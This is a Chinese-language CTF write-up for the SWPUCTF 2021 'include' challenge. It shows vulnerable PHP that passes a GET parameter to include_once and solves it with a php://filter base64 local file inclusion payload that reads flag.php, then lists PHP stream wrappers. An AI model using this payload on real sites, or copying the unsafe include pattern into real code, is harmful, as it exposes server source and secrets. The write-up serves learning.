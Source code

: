 ```yaml
---
title: SWPUCTF 2021 新生赛 include
description: 高中时期在NSSCTF上刷题的题解
author: lamaper
date: 2022-08-09 20:12:00 +0800
categories: [Cyber Security]
tags: [ctf, web, php]
math: true
mermaid: true
---
```


[SWPUCTF 2021 新生赛 include lamaper的WriteUp | NSSCTF](https://www.nssctf.cn/note/set/373)

知识点：php伪协议

php://伪协议是php提供的一些输入输出流访问功能，允许访问php的输入输出流，标准输入输出和错误描述符，内存中，磁盘备份的临时文件流，以及可以操作其他读取和写入文件的过滤器。

首先看到题目提示传个file，遂/?file=.......一个随意参数，而后得到源代码
```php
<?php
ini_set("allow_url_include","on");
header("Content-type: text/html; charset=utf-8");
error_reporting(0);
$file=$_GET['file'];
if(isset($file)){
    show_source(__FILE__);
    echo 'flag 在flag.php中';
}else{
    echo "传入一个file试试";
}
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
include_once($file);
?> flag 在flag.php中
```
发现有include_once函数；
include_once()：在脚本执行期间包含并运行指定文件。该函数和include 函数类似，两者唯一的区别是 使用该函数的时候，php会加检查指定文件是否已经被包含过，如果是，则不会再被包含。

于是利用伪协议构造，
```
php://filter/convert.base64-encode/resource=flag.php
```
得到经过Base64加密的flag，解密即可。

另：php伪协议
常见的php伪协议

1）file://     访问本地文件系统

2）http://   访问HTTP(S)网址

3）ftp://      访问FTP(S)URL

4)php://      访问各个输出输入流

5)zlib://       处理压缩流

6)data://     读取数据

7)glob://      查找匹配的文件路径模式

8)phar://      PHP归档

9)rar://         RAR数据压缩